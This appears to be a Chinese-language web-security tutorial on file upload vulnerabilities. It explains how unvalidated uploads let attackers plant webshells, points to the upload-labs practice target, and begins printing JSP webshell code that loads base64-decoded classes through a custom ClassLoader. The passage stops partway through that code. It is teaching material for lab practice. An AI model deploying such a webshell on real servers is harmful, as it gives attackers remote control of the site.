 # 文件上传漏洞

### **漏洞原理：**
- 在文件上传的功能处，若服务端脚本语言未对上传的文件进行严格验证和过滤，导致恶意用户上传恶意的脚本文件时，**获取执行服务端命令的能力**，这就是文件上传漏洞。
- 文件上传漏洞对Web应用来说是一种非常严重的漏洞。一般情况下，Web应用都会允许用户上传一些文件，如头像、附件等信息，如果Web应该没有对用户上传的文件进行有效的检查过滤，那么恶意用户就会上传一句话木马等webshell，从而达到控制web网站的目的。
- 文件上传实质上还是客户端的POST请求，消息主体是一些上传信息。前端上传页面需要指定enctype为multipart/from-data才能正常上传文件。
- 后台php或者asp都有这个漏洞，java后台如果不支持jsp页面，那么就没有这个漏洞。

### **靶机搭建**
使用搭建[upload-labs](upload-lab)靶机，可以docker一键搭建，一边靶机实战，一边学习漏洞技巧，**而且一定要看靶机的源码**。
![漏洞总览](文件上传/uplaod-all.jpg)

### **一句话木马**
**一句话木马就是提供了一个代码执行的环境**  

jsp: 

```jsp
<%!
    class U extends ClassLoader {
        U(ClassLoader c) {
            super(c);
        }
        public Class g(byte[] b) {
            return super.defineClass(b, 0, b.length);
        }
    }

    public byte[] base64Decode(String str) throws Exception {
        try {
            Class clazz = Class.forName("sun.misc.BASE64Decoder");
            return (byte[]) clazz.getMethod("decodeBuffer", String.class).invoke(clazz.newInstance(), str);
        } catch (Exception e) {
```